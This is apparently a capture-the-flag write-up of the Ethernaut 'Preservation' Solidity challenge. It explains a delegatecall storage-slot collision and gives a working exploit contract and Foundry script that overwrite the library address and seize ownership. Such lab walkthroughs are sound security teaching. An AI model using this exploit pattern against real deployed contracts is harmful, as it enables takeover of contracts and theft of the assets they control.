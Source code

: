 # Preservation   
Our goal in this challenge is to claim ownership of the `Preservation` contract. However, there’s no direct function to change the `owner`. Let’s analyze the setup.

The description mentions that a `library` is used to store two different times for two different timezones. Let’s take a look at the provided library:
```solidity
// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
At first glance, this seems like a library, but it’s actually a contract. Libraries in Solidity cannot have state variables or hold ether, but this contract does. 
This discrepancy is key to solving the challenge. [https://solidity-by-example.org/library/](https://solidity-by-example.org/library/)

#### The Vulnerability: [Storage Collision](https://mixbytes.io/blog/collisions-solidity-storage-layouts)

The issue here lies in how `delegatecall` works. When `Preservation` uses `delegatecall` to interact with `LibraryContract`, it executes the library’s code in the context of the `Preservation` contract’s storage. This means that any storage writes in `LibraryContract` will affect Preservation’s storage slots.

Let’s compare the storage layouts of both contracts:

Preservation:
```solidity
address public timeZone1Library; // Slot 0
address public timeZone2Library; // Slot 1
address public owner;            // Slot 2
uint256 storedTime;              // Slot 3
```
LibraryContract:   
```solidity
uint256 storedTime; // Slot 0
```
Notice that `LibraryContract` only uses one storage slot (`storedTime`), but when `delegatecall` is used, this slot corresponds to `timeZone1Library` in `Preservation`. This misalignment allows us to manipulate Preservation’s storage.

#### Exploiting the Misalignment

By calling `setTime` in `LibraryContract`, we can overwrite `timeZone1Library` in `Preservation` because both share the same storage slot (Slot 0). Once we change `timeZone1Library` to point to a malicious contract, we can use it to modify the `owner` variable.  

Here’s the step-by-step plan:
1. Deploy a malicious contract with a setTime function that updates the owner.
2. Overwrite timeZone1Library to point to our malicious contract.
3. Call setFirstTime again to trigger the malicious setTime function and claim ownership.

I created a smart contract and a script to automate the process: 

Solving.sol:   
```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract Solving {

    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 _newOwner) public {
        owner = msg.sender; 
    }
}
```
SolvingScript.s.sol:   
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {

    Solving solving;
    address victim = ; /* Your instance address */

    function run() public {
        vm.startBroadcast();

        // Step 1: Deploy our malicious smart contract
        solving = new Solving();

        // Step 2: Overwrite timeZone1Library with our malicious contract
        victim.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(uint160(address(solving)))));

        // Step 3: Trigger setTime in our contract to claim ownership
        victim.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(0)));
    }
}
```
